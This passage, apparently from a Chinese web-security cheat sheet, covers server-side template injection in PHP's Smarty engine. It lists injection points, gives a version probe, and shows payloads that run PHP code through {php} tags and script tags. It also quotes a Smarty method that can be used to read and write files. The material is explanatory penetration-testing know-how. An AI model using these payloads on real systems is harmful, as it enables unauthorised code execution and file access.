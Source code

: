 ```javascript
    --download REMOTE LOCAL  Download remote files
```

### **9、smarty SSTI**

smarty是基于PHP开发的，官方文档 于Smarty的SSTI的利用手段与常见的flask的SSTI有很大区别

注入点：

- XFF
- Client IP

确认漏洞：

- 输入`{$smarty.version}`，返回smarty的版本号

##### **`{php}{/php}`标签**

Smarty支持使用{php}{/php}标签来执行被包裹其中的php指令

```javascript
{php}phpinfo();{/php}
```

但在Smarty3的官方手册里有以下描述：

- Smarty已经废弃{php}标签，强烈建议不要使用
- 在Smarty 3.1，`{php}`仅在SmartyBC中可用

##### **`{literal}`标签**

官方手册这样描述这个标签：

- `{literal}`可以让一个模板区域的字符原样输出
- 这经常用于保护页面上的Javascript或css样式表，避免因为Smarty的定界符而错被解析

在php5的环境中可以使用

```javascript
<script language="php">phpinfo();</script>
```

php7就不能用了

##### **静态方法**

通过self获取Smarty类再调用其静态方法实现文件读写

Smarty类的getStreamVariable方法的代码

```javascript
public function getStreamVariable($variable)
{
        $_result = '';
        $fp = fopen($variable, 'r+');
        if ($fp) {
            while (!feof($fp) && ($current_line = fgets($fp)) !== false) {
                $_result .= $current_line;
            }
            fclose($fp);
            return $_result;
        }
        $smarty = isset($this->smarty) ? $this->smarty : $this;
        if ($smarty->error_unassigned) {
            throw new SmartyException('Undefined stream variable "' . $variable . '"');
        } else {
            return null;
        }
    }
```
